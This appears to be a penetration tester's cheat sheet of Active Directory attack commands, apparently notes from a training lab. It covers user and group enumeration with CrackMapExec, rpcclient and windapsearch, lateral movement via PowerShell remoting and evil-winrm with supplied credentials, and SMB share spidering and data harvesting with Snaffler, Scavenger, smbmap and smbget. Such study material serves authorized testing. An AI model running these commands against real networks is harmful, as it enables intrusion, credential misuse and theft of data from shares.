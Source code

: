 #### **Users and Groups Enumeration**

* PowerShell Oneliner to find all group membership of the current user:\
  `(New-Object System.DirectoryServices.DirectorySearcher("(&(objectCategory=User)(samAccountName=$($env:username)))")).FindOne().GetDirectoryEntry().memberOf`
* CrackMapExec (CME) Users Enumeration:\
  `sudo crackmapexec smb 172.16.5.5 -u validuser -p validpassword --users`
* CME Users Enumeration via rid bruteforce:\
  `sudo crackmapexec smb 172.16.5.5 -u validuser -p validpassword --rid-brute`
* [WindapSearch](https://github.com/ropnop/go-windapsearch) user enumeration:\
  `./windapsearch -d domain.example --dc 10.10.11.35 -u 'user' -p 'password' -m users`
* CME Groups Discovery:\
  `sudo crackmapexec smb 172.16.5.5 -u validuser -p validpassword --groups`
* CME Logged Users Discovery:\
  `sudo crackmapexec smb 172.16.5.125 -u validuser -p validpassword --loggedon-users`
* RPCClient users and relative identifiers enumeration:\
  `rpcclient --user domain\username%password ip` followed by `enumdomusers`
* RPCClient specific user enumeration through relative identifier:\
  `rpcclient --user domain\username%password ip` followed by `queryuser 0x457`
* WindapSearch Domain Admins Group Discovery:\
  `python3 windapsearch.py --dc-ip 172.16.5.5 -u domain\validuser -p validpassword --da`
* WindapSearch Recursive Discovery of users with nester permissions:\
  `python3 windapsearch.py --dc-ip 172.16.5.5 -u domain\validuser -p validpassword -PU`
* PS Active Directory Module - Enumerate Groups:\
  `Import-Module ActiveDirectory` followed by `Get-ADGroup -Filter *`
* PS Active Directory Module - Enumerate Specific Group:\
  `Import-Module ActiveDirectory` followed by `Get-ADGroup -Identity "Backup Operators"`
* PS Active Directory Module - Discover Members of a specific Group:\
  `Import-Module ActiveDirectory` followed by `Get-ADGroupMember -Identity "Backup Operators"`

#### **Lateral Movement**

1. Query domain controllers: `netdom query /domain:inlanefreight.local dc`
2. Query workstations and servers: `netdom query /domain:inlanefreight.local workstation`
3. Enumerate the Remote Desktop Users (RDP) group on a Windows target: `Get-NetLocalGroupMember -ComputerName NAME -GroupName "Remote Desktop Users"`
4. Enumerate the Remote Management Users (Win-RM) group on a Windows target:`Get-NetLocalGroupMember -ComputerName NAME -GroupName "Remote Management Users"`
5. Create a password variable: `$password = ConvertTo-SecureString "PasswordHere" -AsPlainText -Force`
6. Create a PS Credential Object: `$cred = new-object System.Management.Automation.PSCredential ("DOMAIN\username", $password)`
7. Get PowerShell session using a PS Credential Object: `Enter-PSSession -ComputerName ACADEMY-EA-DB01 -Credential $cred`
8. Get a PowerShell session through WinRM - Linux: `evil-winrm -i 10.129.201.234 -u forend`

#### **SMB Shares Enumeration**

* Run [Snaffler](https://github.com/SnaffCon/Snaffler) _from a Windows host_ to find useful data in shares:\
  `.\Snaffler.exe -d INLANEFREIGHT.LOCAL -s -v data`
* Run [Scavenger](https://github.com/SpiderLabs/scavenger/tree/master) _from a Linux host_ to find useful data in shares:\
  `python3 ./scavenger.py smb -t 10.0.0.10 -u administrator -p Password123 -d testdomain.local`
* CME Shares Enumeration:\
  `sudo crackmapexec smb 172.16.5.5 -u validuser -p validpassword --shares`
* CME Share Spidering:\
  `sudo crackmapexec smb 172.16.5.5 -u validuser -p validpassword -M spider_plus --share sharename`
* SMBMap Share Enumeration:\
  `smbmap -u validuser -p validpassword -d INLANEFREIGHT.LOCAL -H 172.16.5.5`
* SMBMap Share Recursive Directory Listing\
  `smbmap -u validuser -p validpassword -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R SHARENAME --dir-only`
* Download Shares Recursively:\
  `smbget -u guest -R smb://10.129.8.111/Development/`
